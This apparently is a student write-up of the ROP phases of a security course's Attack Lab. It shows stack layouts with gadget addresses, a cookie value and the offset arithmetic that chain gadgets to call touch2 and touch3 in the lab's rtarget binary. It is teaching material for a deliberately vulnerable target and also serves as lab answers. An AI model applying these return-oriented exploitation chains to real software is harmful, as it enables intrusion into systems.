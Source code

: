 ```

00000000004017ec <touch2>:
  ...

# stack:
+-----------------------+
|  0x00000000'004017ec  |
+-----------------------+ <- rsp+0x18
|  0x00000000'004019c5  |
+-----------------------+ <- rsp+0x10
|  0x00000000'59b997fa  | (cookie)
+-----------------------+ <- rsp+0x8
|  0x00000000'004019ab  |
+-----------------------+ <- rsp (buf+0x28)
```

## ROP Level 3

Need to pass a string as argument to `touch3` in `rtarget`. The string have to be put on stack, but the stack address is randomized. Therefore, we need to calculate the string address by adding a constant offset to `%rsp`. We can make use of the `add_xy` function in the farm. However, to call the function, we need to put the operands into `%rdi` and `%rsi`.

Checkout all possible data movement in the farm. There are connected paths from `rax` to `rdi` and from `eax` to `esi`.
```
                 popq
                   | 58
      48 89 e0     v   48 89 c7
%rsp ----------> %rax ----------> %rdi

        89 e0            89 c2            89 d1            89 ce
%esp ----------> %eax ----------> %edx ----------> %ecx ----------> %esi
                   |
                   +------------> %edi
                         89 c7
```

Just put the stack address into `rdi` and the offset into `esi`, call `add_xy`, move the result from `rax` to `rdi`, and finally jump to `touch3`. That's it. The answer is at [r3.txt](r3.txt).
```
# text:
00000000004017a8 <getbuf>:
  ...
> 4017bd:	c3                   	retq

# stack:
+-----------------------+
|      "59b997fa"       | cookie string
+-----------------------+ <- rsp+0x50
|  0x00000000'004018fa  | touch3
+-----------------------+ <- rsp+0x48
|  0x00000000'004019a2  | mov %rax,%rdi
+-----------------------+ <- rsp+0x40
|  0x00000000'004019d6  | add_xy
+-----------------------+ <- rsp+0x38
|  0x00000000'00401a13  | mov %ecx,%esi
+-----------------------+ <- rsp+0x30
|  0x00000000'00401a69  | mov %edx,%ecx
+-----------------------+ <- rsp+0x28
|  0x00000000'004019dd  | mov %eax,%edx
+-----------------------+ <- rsp+0x20
|  0x00000000'00000048  | offset = (rsp+0x50) - (rsp+0x08) = 0x48
+-----------------------+ <- rsp+0x18
```